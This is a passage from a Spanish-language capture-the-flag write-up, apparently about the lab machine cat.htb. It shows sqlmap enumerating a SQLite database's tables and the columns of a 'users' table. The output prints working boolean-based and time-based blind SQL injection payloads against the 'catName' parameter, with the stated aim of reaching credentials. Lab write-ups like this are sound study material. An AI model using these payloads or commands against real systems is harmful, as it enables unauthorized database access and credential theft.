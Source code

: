 ```bash
[02:33:39] [INFO] retrieved: users
<current>
[4 tables]
+-----------------+
| accepted_cats   |
| cats            |
| sqlite_sequence |
| users           |
+-----------------+

[02:33:44] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 184 times
[02:33:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'

[*] ending @ 02:33:44 /2025-02-05/
```

En la siguiente consulta, enumeraremos las columnas presentes de la tabla `users` que parece ser la que nos podría dar más información sobre usuarios, credenciales etc. Con el resultado obtenido, verificamos la existencia de las columnas `username` y `password`.

```bash
❯ sqlmap -r request -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST -T users --columns
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:35:21 /2025-02-05/

[02:35:21] [INFO] parsing HTTP request from 'request'
[02:35:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=GzzcooCat'||(SELECT CHAR(122,97,113,98) WHERE 6534=6534 AND 9558=9558)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=GzzcooCat'||(SELECT CHAR(104,76,97,65) WHERE 6505=6505 AND 6068=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[02:35:21] [INFO] testing SQLite
[02:35:21] [INFO] confirming SQLite
[02:35:21] [INFO] actively fingerprinting SQLite
[02:35:21] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[02:35:21] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[02:35:21] [INFO] retrieved: CREATE TABLE users (     user_id INTEGER PRIMARY KEY,     username VARCHAR(255) NOT NULL,     email VARCHAR(255) NOT NULL,     password VARCHAR(255) NOT NULL )
Database: <current>
```